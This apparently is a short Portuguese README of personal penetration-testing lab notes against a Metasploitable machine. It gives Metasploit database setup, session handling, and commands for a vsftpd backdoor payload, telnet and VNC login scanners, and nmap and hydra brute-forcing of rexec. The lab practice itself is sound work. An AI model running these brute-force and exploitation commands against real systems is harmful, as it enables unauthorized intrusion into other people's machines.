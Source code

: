  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
----
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf

![image](https://github.com/user-attachments/assets/4fd6c1bb-7046-475b-aa98-4870ef157d5e)

![image](https://github.com/user-attachments/assets/a7e1a171-b54a-4cfa-b625-edcb3abb0ada)

![image](https://github.com/user-attachments/assets/5f82ab13-8c53-4ac1-bfc4-88fe7959647e)

![image](https://github.com/user-attachments/assets/967ec4b6-3d7a-4357-9a10-85016a8a83cc)

Depois de conseguir acesso como root usando o payload de:
CRTL + Z ;
Y ;

sessions
para acessar a sessao ;
sessions -i 2 ;

![image](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 
